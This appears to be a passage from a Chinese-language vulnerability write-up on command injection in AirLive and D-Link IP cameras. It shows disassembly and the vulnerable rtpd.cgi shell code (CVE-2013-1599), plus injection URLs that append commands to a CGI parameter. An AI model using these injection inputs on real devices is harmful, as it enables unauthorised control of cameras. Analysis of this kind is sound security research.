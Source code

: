 ```
MOV             R2, R5
LDR             R1, =aOptIpncInfo__1 ; "/opt/ipnc/info_writer -p %s > /dev/null"
MOV             R0, SP
BL              sprintf
MOV             R0, SP
BL              system
MOV             R2, R5
LDR             R1, =aWrite_pidOkPid ; "WRITE_PID OK, PID=%s\r\n"
LDR             R0, =unk_1977C
MOV             R4, SP
BL              sprintf
B               loc_9728

```

### AirLive Command Injection Pwned

所以我们完全可以在传入几个受影响的参数后注入;或者&&的方式来注入我们的恶意命令

```
/cgi_test.cgi?write_pid&;id&
/cgi_test.cgi?write_pid&&&id&

```

![enter image description here](http://drops.javaweb.org/uploads/images/4269599ee7417794a0ef2301f823ce3c60deee5d.jpg)

### D-link Command Injection(CVE-2013-1599)

这是个影响很大的洞,至今依旧影响很多基于D-link固件二次开发的摄像头(尤其国内厂商)

在`/var/www/cgi-bin/`中,`rtpd.cgi`文件成为了猪队友

```
echo "$QUERY_STRING" | grep -vq ' ' || die "query string cannot contain spaces."
. $conf > /dev/null 2> /dev/null
eval "$(echo $QUERY_STRING | sed -e 's/&/ /g')"
case $action in
start)
$script start
;;
stop)
$script stop
;;
...

eval "$(echo $QUERY_STRING | sed -e 's/&/ /g')"

```

代码本意是要在?后传入action控制设备状态,奈何开发暴露智商，`$QUERY_STRING`取问号后的值将`&`替换后`eval`执行。。。？传值完全可控

### D-link Command Injection PWNed
